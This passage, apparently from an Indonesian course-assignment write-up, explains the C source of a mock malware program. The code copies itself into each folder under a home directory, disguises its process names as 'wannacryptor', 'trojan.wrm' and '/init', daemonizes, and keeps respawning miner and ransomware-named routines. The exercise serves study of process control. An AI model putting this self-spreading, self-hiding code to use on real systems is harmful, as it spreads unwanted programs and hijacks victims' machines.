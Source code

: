 - entry digunakan untuk membaca isi direktori (readdir).
- dest_path akan menyimpan path lengkap tempat runme akan disalin.
- `while ((entry = readdir(dir)) != NULL) {`Iterasi untuk setiap file/folder dalam /home/riverz.
- `snprintf(folder_path, sizeof(folder_path), "%s/%s", target_base, entry->d_name);` Gabungkan nama direktori penuh cth: /home/riverz/random
- `snprintf(dest_path, sizeof(dest_path), "%s/%s", folder_path, runme_name);` Path akhir tujuan cth: /home/riverz/random/runme.
- `while ((ch = fgetc(src)) != EOF)
        fputc(ch, dst);` Salin isi file byte demi byte dari sumber ke tujuan.
- `while (1) {
    sleep(5);
}` Loop selamanya dengan delay 5 detik untuk mempertahankan proses tetap berjalan agar tidak langsung keluar.

d. Anak fitur pertama dan kedua terus berjalan secara berulang ulang selama malware masih hidup dengan interval 30 detik.
```sh
int main(int argc, char *argv[]) {
    char cwd[1024];
    getcwd(cwd, sizeof(cwd));

    if (argc >= 2 && strcmp(argv[1], " ") == 0) {
      prctl(PR_SET_NAME, (unsigned long) argv[0], 0, 0, 0);
      cryptominer(argv[0][strlen(argv[0]) - 1] - '0');           
    }

    if (argc > 0 && strcmp(argv[0], "rodok.exe") == 0) {
        prctl(PR_SET_NAME, (unsigned long)"rodok.exe", 0, 0, 0);
            rodok_launcher();
        return 0;
    }

    if (argc > 0 && strcmp(argv[0], "wannacryptor") == 0) {
        prctl(PR_SET_NAME, (unsigned long)"wannacryptor", 0, 0, 0);
            wannacryptor();
        return 0;
    }
    
    if (argc > 0 && strcmp(argv[0], "trojan.wrm") == 0) {
        prctl(PR_SET_NAME, (unsigned long)"trojan.wrm", 0, 0, 0);
            trojan_wrm();
        return 0;
    }
    
    if (argc > 0 && strcmp(argv[0], "init") == 0) {
        daemonize();
        chdir(cwd);
        prctl(PR_SET_NAME, (unsigned long) "/init", 0, 0, 0);

        while (1) {
            pid_t pid = fork();
            if (pid == 0) {
                char *args[] = {"wannacryptor", NULL};
                execv("/proc/self/exe", args);
                perror("execv wannacryptor failed");
                exit(1);
            }
        
            pid_t pid2 = fork();
            if (pid2 == 0) {
                char *args[] = {"trojan.wrm", NULL};
                execv("/proc/self/exe", args);
                perror("execv trojan.wrm failed");
                exit(1);
```
